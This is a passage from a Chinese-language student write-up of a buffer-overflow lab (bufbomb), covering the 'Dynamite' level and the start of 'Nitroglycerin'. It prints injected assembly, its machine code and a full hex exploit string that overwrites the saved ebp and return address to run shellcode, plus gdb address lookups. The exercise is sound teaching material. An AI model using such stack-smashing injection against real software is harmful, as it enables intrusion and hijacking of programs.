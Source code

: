 可以发现，执行完`getbuf`后，应该返回的地址为`0x8048bf3`。

`getbuf`的ret被运行后，其`%esp`的值已经被恢复，原始堆栈被破坏，`%ebp`亦被破坏。因此编写代码主要是重新设置return address和`ebp`处的数据，由于`getbuf()`的函数返回值存在`%eax`中，因此需要用`movl`命令将`cookie`赋值给该寄存器。

```assembly
push $0x8048bf3
push $0x55683110
movl $0x20a6c142,%eax
leave
ret
```

进行编译操作得到

```assembly
00000000 <.text>:
   0:	68 f3 8b 04 08       	push   $0x8048bf3
   5:	68 10 31 68 55       	push   $0x55683110
   a:	b8 42 c1 a6 20       	mov    $0x20a6c142,%eax
   f:	c9                   	leave  
  10:	c3                   	ret    
```

因此，先注入17字节自编代码的机器码，再注入23字节无关码，4字节的`ebp`地址`0x556830e0`，最后注入4字节自编代码的地址码（`buf[0]`的地址为`-0x28(%ebp)`，也就是`0x556830b8`）

**最终答案**

```
/* Level 3: Dynamite 17 byte func, 23 byte 00, 4 byte ebp addr, 4 byte ret addr */
68 f3 8b 04 08 68 10 31 68 55 b8 42 c1 a6 20 c9 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 e0 30 68 55 b8 30 68 55 
```

`test` 以及 `getbuf` 的栈帧空间可以用以下图例来表示：

<img src="C:/Users/xiaojs20/AppData/Roaming/Typora/typora-user-images/image-20221116224134601.png" alt="image-20221116224134601" style="zoom: 50%;" />

## Level 4: Nitroglycerin (10 pts)  

> 栈空间浮动情况下的代码植入：
> 使用栈随机化来防止被攻击：先在栈上分配一个随机大小的空间，使得函数地址在正负 240 范围内浮动。
>
> 任务：
> 即使这样，你还是需要修改函数返回值为你的 cookie，且不能影响其正常返回 testn() 。
> 评测会重复进行 5 次，防止你运气过好，直接攻击成功。

利用gdb工具，可以得知`testn`地址为`0x8048c54`，`getbufn`地址为`0x804929c`

```shell
(gdb) info address testn
Symbol "testn" is at 0x8048c54 in a file compiled without debugging.
(gdb) info address getbufn
Symbol "getbufn" is at 0x804929c in a file compiled without debugging.
```
